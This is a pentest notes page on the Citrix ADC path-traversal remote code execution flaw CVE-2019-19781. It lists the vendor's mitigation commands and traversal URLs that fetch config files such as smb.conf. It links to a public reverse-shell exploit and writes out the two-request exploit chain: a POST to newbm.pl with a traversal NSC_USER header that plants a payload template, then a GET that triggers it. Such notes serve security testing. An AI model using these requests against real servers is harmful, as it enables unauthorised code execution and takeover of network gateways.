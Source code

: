 # Citrix Admin URL RCE (CVE-2019-19781)


## Check the vulnerability

From the [Citrix report](https://support.citrix.com/article/CTX267679), it's
look like using a crafted URL you can bypass user permissions. The fix is the
following:

```
enable ns feature responder
add responder action respondwith403 respondwith "\"HTTP/1.1 403 Forbidden\r\n\r\n\""
add responder policy ctx267027 "HTTP.REQ.URL.DECODE_USING_TEXT_MODE.CONTAINS(\"/vpns/\") && (!CLIENT.SSLVPN.IS_SSLVPN || HTTP.REQ.URL.DECODE_USING_TEXT_MODE.CONTAINS(\"/../\"))" respondwith403
bind responder global ctx267027 1 END -type REQ_OVERRIDE
save config
```

A legit URL is `https://<host>/vpn/tmindex.html`, then you should access the admin
panel using the custom URL `https://<host>/vpn/..%2fvpns/apps.html`.

You can test this vulnerability by downloading some executable files:
```
/vpn/../vpns/services.html
/vpn/../vpns/cfg/smb.conf
```

You can check if a server is patched because it returns the following line as a
HTTP response:

```
HTTP/1.1 403 Forbidden
```


## Exploit

A full exploit can be download [here](https://github.com/trustedsec/cve-2019-19781).
It uses a Python reverse-shell, so you need a [listener](../reverse-shell.md).
To exploit the vulnerability you need to [perform the following requests](https://swarm.ptsecurity.com/remote-code-execution-in-citrix-adc/):

- Create a fake template file containing the payload based on the `NSC_USER` header
- Request the created file to execute the payload

```
POST https://{host}:{port}/vpn/../vpns/portal/scripts/newbm.pl
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
NSC_USER: ../../../netscaler/portal/templates/<filename>
NSC_NONCE: <nounce>

url=127.0.0.1&title=<payload>&desc=desc&UI_inuse=a
```

```
GET https://{host}:{port}/vpn/../vpns/portal/<filename>.xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
NSC_USER: <randomuser>
NSC_NONCE: <nounce>
```
